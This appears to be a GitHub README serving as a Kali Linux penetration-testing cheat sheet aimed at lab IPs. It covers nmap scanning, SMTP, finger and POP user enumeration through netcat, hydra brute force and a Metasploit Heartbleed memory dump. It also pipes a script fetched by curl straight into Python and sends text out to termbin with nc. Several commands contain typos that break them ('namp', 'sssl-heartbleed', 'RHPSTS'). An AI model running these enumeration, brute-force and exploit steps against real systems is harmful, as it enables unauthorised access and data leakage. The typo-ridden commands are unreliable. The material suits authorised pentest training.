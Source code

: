 ## Usefull Scripts for Kali Linux

#### Text Uploader:

    echo just testing!  | nc termbin.com 9999
    
#### nmap:
    
    # Scan Server Ports / Footprint
    nmap 192.168.1.101
    # Save to File
    nmap 192.168.1.101 -oN nmap.txt
    # A FULL Scan with a save to xml file
    nmap -oX nmap.xml -p- -T4 -A 192.168.1.101
    # nmap scripts
    ls /usr/share/nmap/scripts/
    # run nmap scripts
    namp -script=http-server-header 192.168.1.101 -p 80,443
    # oident service scan
    nmap --script=auth-owners 192.168.1.101
    # get uniqe list
    nmap --script=auth-owners 192.168.1.101 | grep auth-owners | awk '{print $2}' | sort | uniq >> users.txt
    # check all smtp scripts
    nmap --script=smtp* 192.168.1.101 -p 25
    # heartbleed vulnerable info
    nmap --script=sssl-heartbleed 19.168.1.101
    
####  Login into Sockets
    
    # Login for example to ftp Server 
    # (READ Banner message to get service which is runnung)
    nc 192.168.1.101 21

#### NC Example
    
    # communicate with imap for example
    # with auth you can "bruteforce" for users
    nc 192.168.1.101 110
    USER admin
    +OK Name is a valid mailbox
    PASS password
    -ERR [AUTH] invalid password
    
    # Finger service
    nc 192.168.1.101 79
    root admin mail
    finger: root: no such user
    finger: admin: no such user
    finger: mail: no such user
    
    # SMTP Infos
    nc 192.168.1.101 25
    220 localhost ESMTP Postfix (Debian/GNU)
    EHLO hacker
    250-localhost
    250-PIPELINING
    250-SIZE 10240000
    250-VRFY
    250-ETRN
    250-STARTTLS
    250-ENHANCEDSTATUSCODES
    250-8BITMIME
    250 DSN
    VRFY admin  # Valid User! ;)
    252 2.0.0 admin
    VRFY hacker
    550 5.1.1 <hacker>: Recipient address rejected: User unknown in local recipient table
    MAIL FROM: <root@mailserver>
    250 2.1.0 Ok
    RCPT TO: fakefake@localhost
    550 5.1.1 <fakefake@localhost>: Recipient address rejected: User unknown in local recipient table
    RCPT TO: fakefake@gmail.com  # Relay Check (if denied not goot as spam server)
    454 4.7.1 <fakefake@gmail.com>: Relay access denied
    RCPT TO: admin@localhost
    250 2.1.0 Ok  # Accept Mail?
    
#### "Service Wikipedia"
    
    man hydra
    
#### Finger Service

    # Check at Finger service if user is valid
    finger vmail@192.168.1.1
    
#### Bruteforce
    
    # Valid Shell Users
    # Bruteforce in parallel tasks with 10 threads
    cat names.txt | parallel -j 10 finger {}@192.168.1.1
    # just valid users
    cat names.txt | parallel -j 10 finger {}@192.168.1.1 | grep -v "no such user."
    
    # IMAP Bruteforce
    hydra -L usernames.txt -P wordlist.txt 192.168.1.1 imap
    
#### MSF Console
    
    # example heartbleed
    msfconsole
    > search heartbleed
    > use auxiliary/scanner/ssl/openssl/openssl_heartbleed
    > info
    > show options
    > SET RHPSTS 192.168.1.1
    > exploit
    > SET ACTION DUMP
    > run
    > strings [file]
    
    
#### Other Things

    # Save XML as HTML
    xsltproc nmap.xml --output nmap.html
    # Nmap Script GUI from MyHackerHouse.com
    curl http://static.myhackerhouse.com/stuff/nsediscover.py | python -
    # Generate name list like NAME_A
    for name in `cat names.txt`; do for x in {a..z}; do echo $name'_'$x >> name_long.txt; done; done;
    # Search for Kali Sploits
    searchsploit ftp
        
#### Tipps
- Check Webserver (what is running on, get new infos maybe email strcture?)
- has SSL?
- check for vulnerability http://www.securityfocus.com/bid
- https://vimeo.com/199741114